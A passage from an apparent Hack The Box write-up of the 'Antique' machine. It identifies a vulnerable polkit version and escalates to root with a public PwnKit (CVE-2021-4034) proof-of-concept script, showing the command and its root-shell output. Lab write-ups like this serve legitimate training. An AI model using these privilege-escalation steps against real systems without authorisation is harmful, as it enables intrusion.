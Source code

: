 
The important line is:

    
    
    Version: 0.105-26ubuntu1.1
    

According to this table from the Datadog post, that’s the last vulnerable
version on Ubuntu 20.04 focal:

![image-20220502102910695](https://0xdfimages.gitlab.io/img/image-20220502102910695.png)

#### Exploit

This box is actually vulnerable to
[PwnKit](https://blog.qualys.com/vulnerabilities-threat-
research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-
discovered-in-polkits-pkexec-cve-2021-4034). I’ll download a POC exploit (I
like this one from Joe Ammond
[here](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)),
and upload it to Antique. From there, it’s as simple as running the script:

    
    
    lp@antique:/dev/shm$ python3 CVE-2021-4034.py
    [+] Creating shared library for exploit code.
    [+] Calling execve()
    # id
    uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
    

[](/2022/05/03/htb-antique.html)


